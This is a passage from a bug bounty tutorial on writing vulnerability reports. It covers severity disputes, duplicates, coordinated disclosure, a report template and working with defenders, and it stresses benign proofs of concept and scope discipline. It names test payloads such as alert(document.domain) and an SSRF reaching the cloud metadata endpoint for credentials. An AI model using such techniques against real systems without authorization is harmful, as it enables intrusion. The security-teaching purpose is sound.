**Most programs don't use raw CVSS anyway.** Many map findings onto their own severity bands (P1–P5, or Critical/High/Medium/Low) with a reward table, and they weight *business* impact heavily. Read the program's severity taxonomy before you submit and frame your finding in *their* vocabulary. If their table says "P1 = RCE or mass PII exposure," and you have mass PII exposure, quote that line back to them in your severity justification — you're making it effortless for the triager to slot your bug into the band that pays.



---

## Part 11: Severity Negotiation and Dispute Etiquette

Sometimes the program scores your finding lower than you believe it deserves. How you handle that moment determines both this bounty and your standing with the program.



### 9.1 How to dispute well

- **Assume good faith.** The triager isn't cheating you; they scored on the information in front of them. If you disagree, the most likely explanation is you didn't make the impact clear enough — so add clarity, don't accuse.
- **Argue with new evidence, not volume.** "This is definitely critical!!!" persuades no one. "Here's a video showing the same primitive chains into admin ATO — updated CVSS:3.1/.../S:C — Base 9.1" is undeniable.
- **Dispute the CVSS metric-by-metric.** If you think Scope should be Changed, argue *that specific metric* with the mechanism ("the SSRF reaches 169.254.169.254 metadata, crossing from app scope into cloud-credential scope — S:C"). Precise arguments win; vague indignation loses.
- **Know when to stop.** If you've made your best case with evidence and the program holds, accept it gracefully. A single bounty is never worth burning a relationship or your reputation. Platforms have mediation for genuine deadlocks — use it calmly, and never threaten public disclosure as leverage (that's extortion, and it ends careers).

### 9.2 Tone is a technical control

Your tone in the report and the comments is not soft-skills fluff — it materially affects outcomes because a human decides your severity and your bounty. Be concise, factual, and respectful even when frustrated. Programs quietly maintain reputations for hunters; "technically excellent, professional to work with" gets you private invites, and "great bugs, exhausting to deal with" gets you deprioritized regardless of bug quality.

---

## Part 12: Duplicates, Collisions, and Out-of-Scope

Not every good report gets paid, and understanding why keeps you sane and strategic.

### 10.1 Duplicates

A **duplicate** is a bug someone already reported. On popular programs, duplicates are common and usually unpaid (first valid report wins). This is a fact of the game, not a personal failure. Two lessons follow:

- **Speed and surface reduce duplicates.** The obvious bug on the main app was probably reported already; the bug on the forgotten subdomain you found via better recon (Chapter 5) is far less likely to be a dupe. This is *why* the surface and time edges matter — they're duplicate-avoidance strategies.
- **Report fast and completely.** A half-finished report you sit on for a week is a duplicate waiting to happen. When you confirm a bug, write it up and submit promptly; the timestamp is what wins ties.

If you're marked duplicate but suspect your report is materially better or shows greater impact than the original, you can *politely* note the additional impact — occasionally a program will reward a duplicate that meaningfully escalated a known issue — but accept the outcome graciously if they decline.

### 10.2 Informative / N-A / out-of-scope

- **Informative:** valid observation, but the program doesn't consider it a security issue worth a bounty (e.g. a self-XSS with no chain, a missing header they've accepted). Reduce these by reading the excluded-vuln list *before* reporting (Chapter 5's scope discipline).
- **Not applicable:** they couldn't reproduce or it's working-as-intended. Almost always a reproduction-quality problem — the fix is Part 4.
- **Out of scope:** you tested something you shouldn't have. This should never happen if you did Chapter 5's scope reading; if it does, it's a reputation hit, so prevention is everything.

### 10.3 The portfolio mindset

Any individual report can be a dupe, informative, or downgraded — that's variance, not failure. Think in terms of a *portfolio* of reports over months: strong recon plus consistently excellent reports produces a high hit-rate and a reputation that compounds into private invites and faster payouts. One rejected report means nothing; your median report quality is everything.

---

## Part 13: Disclosure, Retesting, and the Long Game

### 11.1 Coordinated disclosure

Most programs operate **coordinated disclosure**: you report privately, the program fixes, and only then (with permission) may the finding be disclosed publicly. Respect this absolutely. Publishing details before a fix — or ever, without the program's consent when the policy requires it — can void your bounty, violate the program's terms, and put real users at risk from a now-public, unpatched bug. Read the program's disclosure policy and follow it to the letter.

### 11.2 Retesting the fix

Programs often ask you to verify the remediation. This is a chance to add value and reputation: retest thoroughly and honestly. If the fix is incomplete (the authorization check was added to the `GET` but not the `export` variant of the endpoint), report the bypass — an incomplete fix is often a fresh, valid finding. A hunter who verifies fixes carefully and catches incomplete remediations is enormously valuable to a program.

### 11.3 Public disclosure as portfolio

Once a finding is fixed and the program permits disclosure, a well-written public write-up (on the platform's disclosure feature, your blog, or a conference talk) builds your reputation and teaches others — provided you have permission and you've sanitized anything sensitive. Disclosed reports are how the community learns, and they're your public track record. But permission and timing come first, always.

---

## Part 14: A Complete Reusable Report Template

Consistency is a professionalism signal and a safety net against forgetting the impact or the CVSS vector under time pressure. Save the following as a markdown snippet and fill it for every submission. It encodes every lesson in this chapter as fill-in-the-blank prompts.

```markdown
## Title
<Vuln class> in <exact method + endpoint/param> — <one-line impact>, <scale note>

## Summary
<2–4 sentences: what is broken, where, what an attacker achieves, who is affected.
State up front if it is unauthenticated and/or mass-scale — those drive severity.>

## Severity
CVSS:3.1/AV:_/AC:_/PR:_/UI:_/S:_/C:_/I:_/A:_  => <score> (<band>)
Justification: <one line each for the 2–3 metrics that matter most here —
especially PR (auth needed?) and S (does it reach beyond the app?).>
Program band: <quote their severity table line this maps to, e.g. "P1: RCE or mass PII">

## Affected asset
<exact URL / endpoint / parameter>  (in scope per: <scope line>)

## Steps to reproduce
1. Start state: <log in as X / unauthenticated>
2. <action> — exact request:
   <curl command with placeholders for tokens>
3. Expected: <normal behavior>. Actual: <the bug>.
4. <minimal additional steps only if required to prove impact>
(Enumeration/data access deliberately limited to <N> records to avoid exposure.)

## Proof of concept
<curl transcript / payload / link to 30–90s video>
<benign proof only: alert(document.domain) / id / @@version / redacted creds>

## Impact
<Business terms: data + scale + regulatory/financial/trust consequence.
Worst REALISTIC case. If it chains, show the chain and mark demonstrated vs reasoned.>

## Remediation
<The correct fix, not a superficial one. e.g. object-level authorization,
contextual output encoding, destination allowlist + IMDSv2, content-based upload
validation outside web root.>

## Supporting material
<screenshots / video / raw HTTP>
## Meta
Testing source IP: <ip>   |   Testing window (UTC): <start>–<end>
```

The `Meta` block at the end — source IP and UTC testing window — is the detail that separates professionals from amateurs. It lets the program's blue team diff their logs against your activity, confirm nobody else exploited the bug during the exposure window, and distinguish your research traffic from a real attacker's. It also protects *you*: if the program sees malicious traffic to the same endpoint, your recorded window is your alibi.

---

## Part 15: Coordinated Disclosure Outside Bounty Programs

Not every vulnerability you find is on an asset with a bug-bounty program. You might discover a flaw in open-source software you use, in a vendor product, or on a company with no formal program. The reporting skills transfer, but the *process* and the *risk* differ, and getting this wrong can turn a good deed into a legal problem.

- **Look for a security contact first.** Check for a `SECURITY.txt` (the `/.well-known/security.txt` standard) publishing a contact and policy, a security email (`security@`), or a listed VDP (Vulnerability Disclosure Program — like a bounty program but without payment). These channels signal the org *wants* reports and often extend safe-harbor.
- **No program is not permission.** The absence of a bounty program does **not** authorize testing. Finding a bug in something you legitimately use (you noticed your own data returned in an API response) is different from actively probing a company that never invited you. Without authorization, active testing can be unauthorized access regardless of your intent. When in doubt, report what you already observed and do not probe further.
- **Coordinate with a CERT/CSIRT for unresponsive or high-impact cases.** For widely-used software, or when a vendor ignores you, national/coordination bodies (CERT/CC, your national CSIRT) can mediate disclosure and assign timelines. They exist precisely for the "vendor won't respond and users are at risk" situation.
- **Follow responsible timelines.** Coordinated disclosure norms give the vendor a reasonable window (commonly ~90 days) to fix before any public detail, extendable for complex fixes. Publishing an unpatched, widely-exploitable bug puts real users at risk; premature disclosure is harm, not transparency.
- **Get a CVE for real software bugs.** For vulnerabilities in identifiable products, a CVE ID (via the vendor if they're a CNA, or a CNA-of-last-resort) creates a durable public record, helps defenders track and patch, and is a legitimate part of your professional track record.

The through-line: outside a program, you have less legal cover and more responsibility. Report what you can substantiate, don't over-probe, coordinate timelines, and let users' safety — not your write-up — set the pace.

---

## Part 16: Tracking Your Own Performance

Treat hunting like a craft you measure. A simple personal log of every report turns anecdote into a feedback loop that sharpens both your recon and your writing.

| Field to log | Why |
|---|---|
| Date submitted, program, asset | Spot which targets and surfaces pay for you |
| Bug class | See your strengths (and blind spots) by category |
| Outcome (paid / dup / informative / N-A) | Your hit-rate — the real KPI |
| Time-to-triage | A proxy for report quality; if it's slow, your repros need work |
| Severity submitted vs. accepted | If you're consistently downgraded, your impact articulation is weak |
| Bounty | ROI per target and per bug class |

Patterns emerge fast. If your IDORs are paid but your XSS reports keep coming back "informative," you're either testing an excluded class or under-articulating the chain. If your time-to-triage is consistently days, your reproductions aren't clear enough — revisit Part 4. If you're downgraded often, your CVSS anchoring or business-impact framing needs work — revisit Parts 5 and 6. The log converts vague frustration ("bounty is hard") into specific, fixable diagnoses. Over months it also tells you where to *spend* time: the surface and bug classes with your best hit-rate and ROI are where your edge is, and the data — not vibes — should steer your hunting.

---

## Part 17: Detection & Defense Angle — Reading Reports From the Other Side

Understanding how a *defender* consumes your report makes you write better ones, and it's the same skill you'd use if you sat on a security team receiving them.

**A great report is a gift to the blue team.** The best reports don't just prove a bug — they hand the defender everything needed to fix it fast and to check for exploitation: the exact endpoint and parameter (so they can grep their code and their logs), the precise request (so they can build a detection signature), the timestamps and source IP (so they can confirm no one *else* exploited it before the report), and a concrete remediation (so the dev doesn't have to design the fix from scratch). When you include your source IP and testing timestamps, you're letting the defender diff their logs: if they see the vulnerable endpoint being hit from *other* IPs outside your testing window, your report just uncovered an in-the-wild exploitation — a far bigger deal than the bug itself.

**Remediation you suggest is a signal.** A remediation section shows you understand the bug deeply enough to know the *right* fix, not a superficial one. For the IDOR, the naive "fix" is switching to UUIDs (obscurity); the correct fix is object-level authorization. Stating that distinction in your report both speeds the real fix and marks you as someone who understands security, not just exploitation — which is exactly the hunter a program wants to keep.

**What defenders should build from reports.** On the receiving side, mature teams turn each valid report into (1) a fix, (2) a regression test so the bug can't return, (3) a detection rule for the exploitation pattern, and (4) a variant hunt ("where else in the codebase do we do object lookups without an ownership check?"). If you're ever on the blue team, treat inbound reports as free, high-signal pentests and mine them for the *class* of bug, not just the instance — the reporter found one IDOR; there are probably five more of the same shape in the codebase.

**The abuse-detection view.** From a SOC perspective, the exploitation of the very bugs you report has signatures: an IDOR being abused looks like one authenticated session requesting many sequential object ids in a short window (anomalous object-access cardinality); a mass-enumeration looks like a `200`-heavy sweep across an id range. Teams that instrument object-level access with rate and cardinality monitoring can catch exploitation of an authz bug even before it's patched — and a report that describes the enumeration pattern hands them the detection logic for free.

---

## Part 18: Communication Cadence and Building Program Relationships

The report is the opening move, not the whole game. What happens in the comment thread afterward shapes the outcome of *this* report and every future one you send that program.

**Respond promptly and completely.** When a triager asks a clarifying question, answer it fully the first time. A same-day, complete answer keeps your report at the top of their queue; a three-day, partial answer sends it to the bottom. If they ask for a video, send the video — not an explanation of why the text should be enough.

**Volunteer the next question's answer.** Anticipate what the triager will need and include it before they ask. If your bug requires a specific account state, provide test credentials or a setup script. If it's environment-dependent, say which environment. Every round-trip you eliminate is a day off the timeline and a point of goodwill.

**Be a partner in the fix, not just a finder.** Offer to retest the remediation. If they propose a fix in the thread and you can see it's incomplete, say so kindly and specifically ("that closes the `GET` path, but the same object is reachable via `POST /export` — worth checking"). Programs deeply value hunters who help them fix correctly, and this is exactly how a good relationship converts into private-program invitations.

**Keep records of the whole thread.** Save your reports and the conversations. They document your conduct (that you stayed in scope, disclosed responsibly, behaved professionally), they're a reference for your own performance log, and — with permission after the fix — they become disclosed write-ups that build your public reputation.

**Manage the relationship across reports, not just within one.** Programs remember you. A steady stream of clear, in-scope, professionally-communicated reports builds a reputation that pays dividends the payout table never lists: faster triage, benefit of the doubt on severity, early access to new scope, and private invitations where a handful of hunters split a rich, low-competition surface. The single best long-term move in bug bounty is to be the hunter a program is *glad* to hear from — and that reputation is built one well-written, well-communicated report at a time.



That loop — good report → good communication → trust → better opportunities → more good reports — is the real career engine of bug bounty. Payloads get you the first bug; this loop is what turns hunting into a sustainable craft.

---

## Part 19: Common Pitfalls

- **Burying the impact.** If the triager has to infer why the bug matters, it gets scored low. State impact explicitly and in business terms.
- **A reproduction that assumes context.** Every "obviously you just..." is a NeedsInfo waiting to happen. Write for a stranger with zero context.
- **Overclaiming severity.** Inflated CVSS or "this is critical!!" without evidence damages credibility and loses the dispute. Anchor accurately, argue with evidence.
- **Exfiltrating real data to "prove" it.** Reading the whole customer table to demonstrate an IDOR is itself a violation and terrifies the triager. Prove the class with your own accounts; limit enumeration.
- **Non-minimal PoC.** Extra steps invite doubt. Strip the reproduction to the shortest path that proves impact.
- **Sitting on a finding.** Slow reports become duplicates. Confirm, write, submit promptly; the timestamp wins ties.
- **Emotional disputes.** Indignation persuades no one and burns relationships. Dispute with new evidence, metric by metric, and know when to accept.
- **Ignoring the excluded-vuln list.** Reporting a bug class the program explicitly excludes wastes everyone's time and marks you as someone who didn't read scope.
- **Breaking disclosure rules.** Publishing before a fix, or using disclosure as leverage, voids bounties and ends careers. Follow the policy exactly.

---

## Part 20: Final Revision / Summary

- **The report is the product.** The same bug pays 10x more in a great report than a bad one; you're paid for the report, not the bug.
- **Write for the triager.** They're skeptical, busy, and have zero context on your finding. Engineer the report to skip NeedsInfo and make SeverityReview a formality.
- **Use the standard skeleton.** Title (class + location + impact), summary (15-second hook), severity (CVSS vector), affected asset, numbered reproduction, PoC, business impact, remediation, supporting material.
- **Reproduction is where value is won.** Numbered, minimal, copy-pasteable, expected-vs-actual, deterministic, and written for a stranger. A curl command the triager can paste beats any prose.
- **Score with CVSS 3.1 and defend it.** Understand all eight base metrics, get Scope and PR right (they swing the number), anchor at an accurate vector, and argue disputes metric-by-metric.
- **Impact is business, not just technical.** Translate "reads a field" into "reportable PII breach for all customers with GDPR/PCI exposure." Worst *realistic* case, shown not asserted.
- **PoCs prove without harming.** Benign commands, limited enumeration, your own accounts, redacted real data. A surgical PoC is both ethical and more persuasive.
- **Handle outcomes like a professional.** Dispute with evidence and respect; accept dupes and downgrades as portfolio variance; follow disclosure rules absolutely. Reputation compounds harder than any single bounty.
- **A great report is a gift to the defender.** Exact endpoint, request, timestamps, source IP, and correct remediation let the blue team fix fast, detect exploitation, and hunt variants — which is exactly why programs fast-track hunters who write them.

---

## Part 21: Cheat Sheet / Quick Reference

**Report skeleton**

```
Title:        <class> in <exact endpoint> — <impact>, <scale note>
Summary:      2–4 sentences: what / where / attacker can / who's affected
Severity:     CVSS:3.1/AV:_/AC:_/PR:_/UI:_/S:_/C:_/I:_/A:_  => score
Asset:        exact URL/param (confirm in scope)
Steps:        1..n numbered, minimal, copy-pasteable, expected vs actual
PoC:          curl / payload / 30–90s video; benign proof only
Impact:       business terms — data, scale, regulatory, worst realistic case
Remediation:  the correct fix (e.g. object-level authz, not just UUIDs)
Support:      screenshots/video/HTTP logs; note limited enumeration
Meta:         your source IP + UTC testing timestamps
```

**CVSS base metrics:** AV (N/A/L/P) · AC (L/H) · PR (N/L/H) · UI (N/R) · S (U/C) · C/I/A (N/L/H). Watch **PR** (auth needed?) and **S** (reaches beyond the app? = Changed) — they swing the score.

**PoC by class:** IDOR → 2-account curl · XSS → `alert(document.domain)` + video · SSRF → Collaborator OOB · SQLi → extract `@@version` · RCE → single `id` · CSRF → auto-submit HTML + video.

**Dispute:** assume good faith → add new evidence → argue CVSS metric-by-metric → know when to accept → never threaten disclosure.

**Reduce rejections:** read excluded-vuln list first · minimal reproduction · report promptly (beat dupes) · benign PoC · follow disclosure policy.

---

## Part 22: Practice Labs & Resources

- **Read disclosed reports on HackerOne Hacktivity and Bugcrowd's disclosed submissions.** Pick ten highly-rated reports and reverse-engineer *why* they read well: how they titled, how they scored, how they framed impact. This is the fastest way to internalize the standard.
- **FIRST.org CVSS 3.1 calculator and specification.** Score five of your own past findings (or PortSwigger lab bugs) end-to-end and write the justification for each metric. Compare against how the lab/program would score them.
- **PortSwigger Web Security Academy — any lab you've solved:** rewrite the solution as a bug-bounty report using this chapter's skeleton, including a curl PoC and a CVSS vector. Practicing the *write-up* on bugs you already understand isolates the reporting skill.
- **PentesterLab and the "Write-ups" culture:** study how experienced hunters structure public write-ups; note the balance of narrative (for humans) and exact reproduction (for validation).
- **Program policy pages (HackerOne/Bugcrowd):** read five real scope+policy pages closely and extract each program's severity table, excluded vulns, and disclosure terms. Reading policy fluently is half of never getting a report rejected on a technicality.
- **Draft a reusable template.** Turn the Part 15 skeleton into a saved markdown template you fill for every submission. Consistency is a professionalism signal and it stops you forgetting the impact or the CVSS vector under time pressure.

**Practice questions**

1. Take a bug you've found (or a PortSwigger lab): write its title in the "class + exact location + impact + scale" form, then write a 3-sentence summary that works as a 15-second hook.
2. Score an unauthenticated SSRF that reaches the cloud metadata endpoint and retrieves IAM credentials. Which two base metrics push it toward critical, and what's your vector string?
3. Rewrite this reproduction so a stranger can follow it: "change the id in the invoice URL to see other invoices." What's missing, and what would you add?
4. A program scores your stored-XSS-in-admin-dashboard finding as Medium. You believe it's High/Critical. Draft the dispute comment — what new evidence do you present and how do you frame the CVSS?
5. Your PoC for an IDOR needs to demonstrate mass enumerability. How do you prove "all customers are enumerable" without actually exfiltrating customer data, and how do you word that in the report?

---

*Also on [Praneeth's portfolio](https://ping-praneeth.vercel.app/notebook/appsec-api-bugbounty/06-writing-high-quality-vulnerability-reports-and-maximizing-payouts), with comments and the latest edits.*
